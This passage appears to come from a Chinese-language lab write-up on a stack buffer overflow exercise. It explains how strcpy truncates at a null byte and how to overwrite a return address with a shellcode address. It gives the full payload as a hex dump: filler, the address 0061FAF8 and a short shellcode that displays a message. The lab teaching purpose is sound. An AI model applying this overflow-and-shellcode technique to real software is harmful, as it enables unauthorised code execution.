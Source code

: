 ##### （2）淹没静态地址实现

使用绝对地址时栈空间以00开头，因此返回地址后的数据不会被拷贝，strcpy函数在拷贝到F8FA6100处后截断字符串，因此将返回地址定为拷贝前的字符串中shellcode的地址。

![image-20221016143817468](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016143817468.png)

根据上图，shellcode起始地址为0061FAF8。构造payload，44+4+4+4+4=60B 任意数据 + 4B shellcode起始地址 + 39B shellcode。将buptbupt改为Buptbup7。

```
34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 F8 FA 61 00 66 81 EC 40 04 33 DB 53 68 42 75 70 74 68 62 75 70 37 8B C4 53 50 50 53 B8 D0 82 80 76 FF D0 53 B8 50 68 B7 75 FF 90 90 90 90 90 90 90 90 90 90
```

![image-20221016143920192](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016143920192.png)

运行程序到ret，程序返回地址被覆盖为shellcode起始地址。
